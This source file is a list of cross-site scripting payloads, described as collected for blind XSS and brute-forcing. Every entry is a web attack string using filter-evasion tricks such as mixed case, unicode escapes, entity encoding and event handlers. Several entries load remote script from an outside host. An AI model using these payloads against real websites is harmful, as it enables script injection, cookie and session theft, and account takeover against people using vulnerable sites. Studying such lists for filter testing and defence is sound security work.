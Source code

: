 # XSS-payloads
collected from everywhere 


payloads = [ # Payloads for blind xss and simple bruteforcing

'\'"</Script><Html Onmouseover=(confirm)()//'
'<imG/sRc=l oNerrOr=(prompt)() x>',
'<!--<iMg sRc=--><img src=x oNERror=(prompt)`` x>',
'<deTails open oNToggle=confi\u0072m()>',
'<img sRc=l oNerrOr=(confirm)() x>',
'<svg/x=">"/onload=confirm()//',
'<svg%0Aonload=%09((pro\u006dpt))()//',
'<iMg sRc=x:confirm`` oNlOad=e\u0076al(src)>',
'<sCript x>confirm``</scRipt x>',
'<Script x>prompt()</scRiPt x>',
'<sCriPt sRc=//14.rs>',
'<embed//sRc=//14.rs>',
'<base href=//14.rs/><script src=/>',
'<object//data=//14.rs>',
'<s=" onclick=confirm``>clickme',
'<svG oNLoad=co\u006efirm&#x28;1&#x29>',
'\'"><y///oNMousEDown=((confirm))()>Click',
'<a/href=javascript&colon;co\u006efirm&#40;&quot;1&quot;&#41;>clickme</a>',
'<img src=x onerror=confir\u006d`1`>',
'<svg/onload=co\u006efir\u006d`1`>']
